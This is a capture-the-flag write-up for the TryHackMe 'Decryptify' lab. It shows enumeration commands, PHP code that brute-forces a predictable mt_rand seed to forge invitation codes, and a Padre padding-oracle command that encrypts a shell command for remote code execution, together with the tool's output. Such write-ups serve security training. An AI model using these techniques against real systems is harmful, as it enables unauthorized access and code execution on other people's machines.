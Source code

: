 ```yaml
---
clayout: ctf
title: Decryptify
type: TryHackMe
date: 2025-04-12
level: Medium
icon: /ctf/tryhackme/decryptify/icon-room.png
image: /ctf/tryhackme/decryptify/icon-room.png
banner: /ctf/tryhackme/decryptify/banner-room.png
description: Use your exploitation skills to uncover encrypted keys and get RCE.
ctf-link: https://tryhackme.com/room/decryptify
---
```


## Challenge Overview

This challenge involves analyzing a vulnerable web application hosted on a target machine. The goal is to enumerate services, analyze web application components, bypass authentication mechanisms, and ultimately exploit a cryptographic vulnerability to achieve Remote Code Execution (RCE) and capture flags.

## Enumeration Phase

### Nmap – Network Scanning

We begin by performing a comprehensive port and service scan to identify open ports on the target system.

```bash
nmap -sV -sC -oN nmap/initial.nmap 10.10.10.10
```

**Scan Results:**

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e539fe7f1243aad8147bfb63ffa730ab (RSA)
|   256 b0d6ce37b5604f0908fc589ec46f649f (ECDSA)
|_  256 91d40396111acefe8cc6f99b8a308b0b (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login - Decryptify
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

**Findings:**

- **SSH (22/tcp)**: OpenSSH 8.2p1
- **HTTP (1337/tcp)**: Apache web server with a login page titled *"Decryptify"*

## Web Application Analysis

### Initial Reconnaissance

Navigating to `http://10.10.10.10:1337/` reveals a login page requesting an email/username and an invitation code.

![Login Page](/ctf/tryhackme/decryptify/login.png)

Reviewing the page source reveals the presence of a JavaScript file: `/js/api.js`.

![Source Code](/ctf/tryhackme/decryptify/source-code.png)

This script appears to be performing some form of processing. When executed locally, it outputs:

```text
H7gY2tJ9wQzD4rS1
```

This string seems to function as a password for accessing the API documentation via a button on the page:

![API Login](/ctf/tryhackme/decryptify/api-login.png)

Using the value as a password grants access to the documentation:

![API Documentation](/ctf/tryhackme/decryptify/api-documentation.png)

Within this documentation, we find the function responsible for generating invitation codes.

```php
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);
    return $seed_value;
}

$seed_value = calculate_seed_value($email, $constant_value);
mt_srand($seed_value);
$random = mt_rand();
$invite_code = base64_encode($random);
```

This is critical for crafting custom invitation codes.

## Directory Enumeration

To uncover hidden directories, we use **Gobuster**:

```bash
gobuster dir -u http://10.10.10.10:1337/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Gobuster Output](/ctf/tryhackme/decryptify/gobuster.png)

### Discovery: `/logs`

We discover a `/logs` directory containing an `app.log` file.

![Logs Directory](/ctf/tryhackme/decryptify/logs.png)

Reviewing the log contents:

![App Log](/ctf/tryhackme/decryptify/app-log.png)

We extract a valid invitation code for the user `alpha@fake.thm`:

```text
Invite code: MTM0ODMzNzEyMg==
```

However, logs also indicate that this account is deactivated:

```text
User alpha@fake.thm deactivated
```

Another user `hello@fake.thm` has since been created. We aim to generate a new invitation code for this user using the function previously found.

## Exploiting the Invitation Code Generation

To do this, we first brute-force the constant value used in the seed calculation for the known user `alpha@fake.thm`.

```php
// Brute-forcing constant value
$email = "alfa@fake.thm";
$invite_code_given = "MTM0ODMzNzEyMg==";
for ($constant_value = 0; $constant_value < 999999999; $constant_value++) {
    $seed_value = calculate_seed_value($email, $constant_value);
    mt_srand($seed_value);
    $random = mt_rand();
    $invite_code = base64_encode($random);

    if ($invite_code === $invite_code_given) {
        echo "Found constant value: " . $constant_value;
        break;
    }
}
```

**Result:**

```bash
Found constant value: 99999
```

### Generating a Valid Invitation Code for `hello@fake.thm`

Now that we have the constant, we generate an invite code for the new user.

```php
$email = "hello@fake.thm";
$constant_value = 99999;

$seed_value = calculate_seed_value($email, $constant_value);
mt_srand($seed_value);
$random = mt_rand();
$invite_code = base64_encode($random);

echo $invite_code;
```

**Output:**

```bash
NDYxNTg5ODkx
```

We can now authenticate successfully.

## Post-Authentication Exploration

After logging in, we are redirected to a dashboard.

![Dashboard](/ctf/tryhackme/decryptify/dashboard.png)

Inspecting the page’s source code reveals a hidden input field with a suspiciously encoded value.

```html
<input type="hidden" name="date" value="ANwAS6sthVRXTaikiT5OiBUZ8DqXsCA+bgJY3N1B0fI=">
```

When submitting a request with an empty `date` parameter, we get the following error:

![Error](/ctf/tryhackme/decryptify/error.png)

The message:

```
Padding error: error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length
```

This is a well-known error message associated with **AES encryption padding issues**, which can potentially indicate a **padding oracle vulnerability**.

## Exploiting Padding Oracle for Remote Code Execution

Using the [Padre](https://github.com/glebarez/padre/releases/tag/v2.1.0) tool, we attempt to exploit this vulnerability:

```bash
./padre-darwin-amd64 \
  -cookie 'PHPSESSID=p4sitftkdolatjl89fplgipsh0; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' \
  -u 'http://10.10.165.104:1337/dashboard.php?date=$' \
  -enc "cat /home/ubuntu/flag.txt"
```

**Tool Output:**

```bash
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] 8ToOYHlh0PuGepheR0TEN66XK6YqUx4yZQWGJFft495lbmJyaWVhcw==                                                                                                                         [40/40] | reqs: 4435 (492/sec)
```

This successfully returns the contents of the flag file.

![Flag Output](/ctf/tryhackme/decryptify/flag.png)
